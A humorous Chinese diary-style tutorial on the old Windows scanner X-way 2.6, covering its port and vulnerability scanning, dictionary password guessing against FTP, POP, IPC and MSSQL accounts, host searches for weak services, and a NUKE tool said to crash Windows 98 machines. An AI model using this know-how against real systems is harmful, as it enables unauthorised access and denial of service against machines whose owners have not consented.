

讲完踩点，我意犹未尽。孙武又要继续讲解端口扫描。可是发现天色已晚，又到了吃晚饭、睡觉的时间了。我想，反正今天讲的踩点还没有消化好呢。就说：“就等明天再听端口扫描也不迟！休息，休息一下。”孙武同意我的提议。


好了，养足精神，开始 x-way 2.6 的学习。“讲了许多扫描，还没有讲一个好的 GUI 界面的工具呢？我喜欢的是图形界面的工具，我是菜鸟。”我开始抱怨孙武。没有办法，他十分不情愿地拿出他的看家兵器：x-way 2.6。我倒是很不客气，将兵器一把抢过来，细细地把玩。

孙武讲道：“既然是佛祖的法旨，我也只好将看家的兵器送你了。不过，搞定后羿之后，你一定还我！”我嬉笑道：“老头，这么小家子气，用完后一定还你。快讲讲如何使用吧。”

X-way 是个有许多优秀功能的多线程扫描工具，最新版本为 2.6 版（新版本最大特色是二级代理扫描，使扫描更为隐蔽）。

x-way 2.6 在界面（图8-1）的左边有六个主要的功能选项，包括“高级扫描”、“主机搜索”、“查询器”、“猜解机”、“黑匣子”、“嗅探器”。

### 二、下面先介绍下“高级扫描”功能

在“高级扫描”功能下有六个设置项，它们是“扫描设置”、“端口定义”、“CGI 规则”、“CGI 设置”、“探测设置”和“猜解设置”。

其中“扫描设置”（图8-2）有一些主要的扫描项，它可以让我们自由地定义需要扫描的信息，主要包括“主机信息”、“路由表”、“IPC 信息”、“WEB 服务信息”、“FTP 匿名检测”、“端口”、“SMTP 探测”、“FINGER 检测”、“RPC 检测”、“弱口令检测”、“CGI/ASP 漏洞”等 11 项内容（要提醒一下的就是 IIS 漏洞是包括在 CGI/ASP 漏洞中的）。我们可以全选，也可以自己定义。然后在右边的“扫描范围”中我们可以输入自己想要扫描的 IP 范围。例如我填入了 192.168.1.73 这个局域网中的地址。另外如果我们选中了“扫描前 ping”这个开关，会提高扫描的速度，但是对于一些禁止了 ping 的主机就会被忽略。总之，你可以根据自己的需要来确定选择哪些选项。



图8-1



图8-2

在“CGI 规则”（图8-3）中存放的是所有的 CGI 漏洞列表，在这儿我们可以自己定义来让 x-way 扫描特定的 CGI 漏洞。在菜单左上的下拉菜单中一共有 3 个选项，分别为：“默认类型”、“win2000/nt 漏洞”和“unix/linux 漏洞”，默认为“默认类型”。这是一个非常好的功能，可以让我们更快速地扫描特定系统的 CGI 漏洞。因为我们可以避免花费大量的时间来做无用功。



图8-3

“探测设置”（图8-4）有“WEB 服务信息”、“路由跟踪”、“IPC 信息”、“SMTP 探测”以及“用户名及工作组”五个选择项。

“猜解设置”（图8-5）中有四个选项：“IPC 用户猜解”、“MSSQL 的 SA 猜解”、“POP 猜解”、“FTP 猜解”，这个默认就是全选。我们可以不必管它。我们还可以设置用户名字典和弱口令字典。如果你对程序自带的用户名和密码字典不满意的话，就可以在这里浏览选择自己的字典。





在“端口定义”（见图8-6）中我们可以设置端口，在列表中选择端口或者连续端口，或者自己建一个端口列举的文本文档来取代程序自带的端口列表文件。



当这些选项选择好后，点击“确定”，X-WAY 2.6 就会扫描主机了。

我拿 X-WAY 2.6 扫描了几台机子，发现效果还不错啊。不知不觉之间，又过去了一天。光 X-WAY 2.6 的“高级扫描”功能就讲了一天，可见这款工具的功能实在是太强大了。

## 日记九：继续 x-way

上古四年 10月32日 星期三 乱七八糟的天气

这一天我起得特别早，为的是早点再听到 X-WAY 的其他功能的讲解。嘿嘿，有好东西谁不想要啊。没想到孙武这个老家伙还真的有货，不愧为“兵圣”。孙武接着昨天的讲解，继续讲着 X-WAY 的其他功能：

- 1. 主机搜索：在这个选项中我们通过自己设置“搜索方式”，来进行对特定目标的扫描。搜索方式有：端口方式、ping 方式、共享主机、自定义 CGI、printer 漏洞、IIS Shell 参数、MS-SQL 空口令、FTP 匿名登录、SOCKS 代理、HTTP 代理 10 项（图9-1）。





图9-1 点击右边的“高级设置”按钮，会出现更加详细的设置选项。下面介绍一下怎样使用 X-WAY 来扫描开放某一特定端口的主机：通过上面的步骤打开“主机搜索各参数设置”对话框（图9-2），然后在“端口设置”中的 OTHER 中填入要扫描的端口号，如 139。再填入要扫描的 IP 段范围，就可以扫描出在此 IP 段中开放了 139 端口的主机。

- 3. “查询器”的查询功能（图9-3）：DNS 查询、时间查询、地址查询、我的 IP、FINGER、NT 时间六项，可以用来查询远程服务器的时间、远程服务器上的用户列表、远程服务器的位置，进行远程服务器的域名及 IP 的互换等等。



- 4. 猜解机（图9-4）：FTP 猜解、SQL 猜解、POP 猜解、SOCKS5 猜解、共享猜解、HTTP 猜解。

我们可以使用字典猜解，也可以自定义字符。如果因为一些特殊的原因，我们还可以“暂停猜解”，然后再“保存进度”；等到有时间的时候再“读入进度”就可以继续猜解了。这样就可以节省许多时间哦。

## 日记十：黑匣子

上古四年 10月39日 星期三 天气很糟



五、黑匣子（图10-1）是自带的几个攻击性的小工具，如 NUKE。在程序的右下方还有攻击功能的描述：向 WIN98/98SE 发送 IGMP 包测试，会导致攻击目标系统蓝屏、机器重启等。

